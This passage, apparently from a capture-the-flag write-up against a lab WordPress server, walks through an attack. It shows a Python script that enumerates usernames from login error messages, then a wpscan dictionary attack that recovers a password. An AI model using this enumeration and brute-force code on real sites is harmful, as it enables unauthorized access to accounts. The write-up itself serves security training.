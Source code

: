 That also didn't reveal anything useful. Let's check if any of the words provided in the list we found can be used as a username. Wordpress login can tell you if the username exists or not by trying to login and checking the error message.


```
ERROR: Invalid username. [Lost your password?](http://192.168.1.72/wp-login.php?action=lostpassword)
```

I wrote a quick python script (with horrible performance) to find any existing usernames.

```python
import requests

open_file = open('fsociety_filtered.txt', 'r')
temp = open_file.read().splitlines()
count = 0
for username in temp:
    payload = {'log': '{0}'.format(username), 'pwd': 'dummy'}
    headers = {'Content-Type' : 'application/x-www-form-urlencoded'}
    cookies = dict(wordpress_test_cookie='WP+Cookie+check')
    r = requests.post("http://192.168.1.72/wp-login.php", data=payload, headers=headers, cookies=cookies)
    if "Invalid username" not in r.text:
        print username
```

Running it revealed that the user `elliot` exists.

I used wpscan to do a dictionary attack using the same list.

```console
root@kali:~/Desktop# wpscan --url http://192.168.1.72 --wordlist=/root/Desktop/fsociety_filtered.txt --username elliot --threads 20
_______________________________________________________________
        __          _______   _____
        \ \        / /  __ \ / ____|
         \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
          \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
           \  /\  /  | |     ____) | (__| (_| | | | |
            \/  \/   |_|    |_____/ \___|\__,_|_| |_|

        WordPress Security Scanner by the WPScan Team
                       Version 2.9.2
          Sponsored by Sucuri - https://sucuri.net
   @_WPScan_, @ethicalhack3r, @erwan_lr, pvdl, @_FireFart_
_______________________________________________________________

[+] URL: http://192.168.1.72/
[+] Started: Fri Jan 20 16:42:46 2017

[+] robots.txt available under: 'http://192.168.1.72/robots.txt'
[!] The WordPress 'http://192.168.1.72/readme.html' file exists exposing a version number
[+] Interesting header: SERVER: Apache
[+] Interesting header: X-FRAME-OPTIONS: SAMEORIGIN
[+] Interesting header: X-MOD-PAGESPEED: 1.9.32.3-4523
[+] XML-RPC Interface available under: http://192.168.1.72/xmlrpc.php

[+] WordPress version 4.3.7 (Released on 2017-01-11) identified from rss generator, rdf generator, atom generator, links opml

[+] Enumerating plugins from passive detection ...
[+] No plugins found
[+] Starting the password brute forcer
  [+] [SUCCESS] Login : elliot Password : ER28-0652

```